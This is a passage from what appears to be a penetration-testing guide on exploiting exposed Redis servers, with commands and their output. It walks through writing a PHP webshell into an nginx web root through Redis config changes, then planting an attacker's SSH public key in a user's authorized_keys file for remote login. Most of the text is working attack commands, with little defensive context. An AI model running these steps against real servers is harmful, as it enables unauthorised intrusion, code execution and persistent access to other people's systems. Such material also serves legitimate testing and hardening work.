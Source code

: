 Dump the database with npm [redis-dump](https://www.npmjs.com/package/redis-dump) or python [redis-utils](https://pypi.org/project/redis-utils/)

<h2>Common Redis Vulnerabilities</h2>

<h3>Webshell</h3>

From: [http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)

You must know the path of the Web site folder:

```bash
root@Urahara:~ redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /usr/share/nginx/html
OK
10.10.x.x:6379> config set dbfilename redis.php
OK
10.10.x.x:6379> set test "<?php phpinfo(); ?>"
OK
10.10.x.x:6379> save
OK
```

If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

<h3>SSH</h3>

In the output of config get * you could find the home of the redis user (usually `/var/lib/redis` or `/home/redis/.ssh`), and knowing this you know where you can write the `authenticated_users` file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it:

Generate a ssh public-private key pair on your pc:

```bash
ssh-keygen -t rsa
```

Write the public key to a file :

```bash
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
```

Import the file into redis :

```bash
cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
```

Save the public key to the `authorized_keys` file on redis server:

```bash
root@Urahara:~ redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /home/test/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```
